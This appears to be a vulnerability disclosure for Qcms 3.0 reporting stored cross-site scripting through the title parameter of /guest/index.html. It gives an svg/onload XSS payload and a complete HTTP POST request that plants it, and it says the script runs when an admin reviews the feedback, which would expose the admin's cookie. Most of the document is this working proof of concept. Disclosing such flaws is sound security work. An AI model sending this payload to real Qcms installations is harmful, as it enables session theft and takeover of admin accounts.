


# Qcms version 3.0 has xss via the title parameter to the /guest/index.html URI	

set xss payload `<svg/onload=alert(0)>` to the title parameter in `/guest/index.html`,when admin user confirm this feedback in admin page there is alert box,attacker can get admin's cookie.

	POST /guest/index.html HTTP/1.1
	Host: localhost
	Content-Length: 92
	Cache-Control: max-age=0
	Origin: http://localhost
	Upgrade-Insecure-Requests: 1
	Content-Type: application/x-www-form-urlencoded
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
	DNT: 1
	Referer: http://localhost/guest/index.html
	Accept-Language: zh-CN,zh;q=0.9
	Cookie: SESS49960de5880e8c687434170f6476605b=KyZyx79ethBmvgssXcM6DUdjHnnYxkfiw-86SorC64c; ly_main_nav_limit=15; lang=zh-cn; theme=default; bdshare_firstime=1519799317252; 
	Connection: close
	
	title=%3Csvg%2Fonload%3Dalert%28%27qcms%27%29%3E&name=test&email=test%40test.t&content=test

